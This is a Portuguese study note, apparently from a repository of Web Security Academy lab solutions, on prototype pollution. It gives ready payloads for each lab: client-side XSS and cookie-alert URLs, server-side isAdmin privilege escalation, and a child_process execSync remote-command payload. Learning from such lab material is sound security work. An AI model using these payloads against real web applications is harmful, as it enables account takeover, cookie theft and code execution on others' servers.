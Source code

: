 # Prototype Pollution

Probabilidade: $${\color{green}baixa}$$.

Recomenda-se utilizar a extensão DOM-Invader do navegador do BurpSuite para encontrar essa vulnerabilidade.

Também surge em arquivos como: `searchLogger.js`, `searchLoggerAlternative.js` and similar `searchLogger`....

![image](https://github.com/user-attachments/assets/04d7ef6d-eb64-49b4-a92b-59d02a5f4ae3)

Se aparecer no Client-Side será utilizado para roubar cookies. No Server-Side será utilizado para escalar privilégios.

<br>

## Laboratórios

**DOM XSS via Client-Side Prototype Pollution**
```
https://site.com/?__proto__[transport_url]=data:,alert(1)
```
<br>
<br>

**DOM XSS via an Alternative Prototype Pollution Vector**
```
https://site.com/?__proto__.sequence=alert(1)-
```

<br>
<br>

Client-Side Prototype Pollution via Flawed Sanitization
```
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
```

<br>
<br>

Client-Side Prototype Pollution in Third-Party Libraries
```
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
```

Stealing cookie:
```
<script>
    location="https://0a910062039513c584de01ab0009004f.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
```

<br>
<br>

**Client-Side Prototype Pollution via Browser APIs**
```
https://site.com/?__proto__[value]=data:,alert(1)
```

<br>
<br>

Privilege Escalation via Server-Side Prototype Pollution
```
{
...
    "__proto__": {
        "isAdmin":true
    }
}
```

<br>
<br>

**Detecting Server-Side Prototype Pollution without Polluted Property Reflection**
```
"__proto__": {
 "status":555
}
```

<br>
<br>

**Bypassing Flawed Input Filters for Server-Side Prototype Pollution**

Tente esse exploit se você perceber o header `Express framework` ou `X-Powered-By`: Express na resposta.
```
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

<br>
<br>

**Remote Code Execution via Server-Side Prototype Pollution**
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('cat /home/carlos/morale.txt')"
    ]
}
```

> [!CAUTION]
> Eu troquei o comando acima de 'rm' para 'cat' de propósito, para evitar que você copie o comando e delete o arquivo secret do exame. Nos laboratórios, de fato você precisará usar o comando 'rm'.
